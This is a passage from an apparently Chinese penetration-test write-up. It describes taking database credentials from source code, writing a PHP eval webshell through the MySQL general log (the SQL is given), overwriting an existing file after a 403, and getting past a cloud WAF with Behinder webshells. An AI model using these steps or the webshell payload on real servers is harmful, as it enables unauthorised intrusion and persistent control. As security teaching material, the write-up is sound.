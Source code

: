 获得源码之后翻数据库账号密码:

![-w307](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-11-22/16054714423847.jpg)

由于之前我们已经有了一个`phpinfo()`探针，网站绝对路径已知，所以直接上`phpMyAdmin`登录，尝试使用`into outfile`，有`--secure-file-priv`限制无法写入:

![-w767](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-11-22/16054716403383.jpg)

转而使用Mysql Log日志存储的方式进行写入:

```sql
set global general_log=on;
set global_log_file='/xxx/www/xxx.php';
select '<?php @eval($_REQUEST["xxx"]);?>';
```

访问相关文件却提示我无法访问(**403/AccessDefined**):

![](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-11-22/16054717903557.jpg)

遇到这种情况尝试以下几种方法:

1. 修改后缀访问，判断是否是只针对脚本后缀进行限制（上传.htaccess文件）
2. 修改内容访问，判断是否有安全防护对内容进行限制
3. 如若以上均未访问成功，则可以考虑覆盖原文件写入


这里我的情况是第三种，大概推测可能是因为新建的文件没有执行权限所导致，因为这里我们已经有源码了所以可以直接找已有的文件(**建议选择非业务相关的文件**)进行写入(**记得事后恢复**):

![-w562](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-11-22/16054723563640.jpg)


执行`phpinfo();`函数可以，但无法直接使用管理工具连接，抓包发现目标网站上了云WAF，对请求内容拦截了(该WAF还挺弱)，这种情况还是有很多中方式:

1. 配合Cknife、蚁剑等自定义修改传输内容(Base64编码等等)，但需要修改PHP文件内容配合解码
2. 直接上冰蝎、哥斯拉的马就行了

为图方便，选择`冰蝎3`，使用`file_put_contents`写入连接就行(这都不拦，WAF堪忧):

![-w362](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-11-22/16054723222387.jpg)

![-w699](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-11-22/16054724217021.jpg)

### 瞄准靶标

进入子域的Webshell发现内网无机器、就是一个云服务器，一开始误以为打中靶标，因为在主战发现一个路径泄漏:

![-w503](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-11-22/16059692424662.jpg)

![-w170](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-11-22/16059693308877.jpg)

而子域服务器上也有对应目录并且文件一模一样，但是修改文件却没反应不生效，猜测很有可能主战业务曾经在这个子域服务器上，但后期进行了转移，原Web文件还留着。

尝试翻翻源码，找密码，后来找到了几个有用的东西:1.Adminer文件 2.数据配置信息

![-w500](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-11-22/16059695408421.jpg)
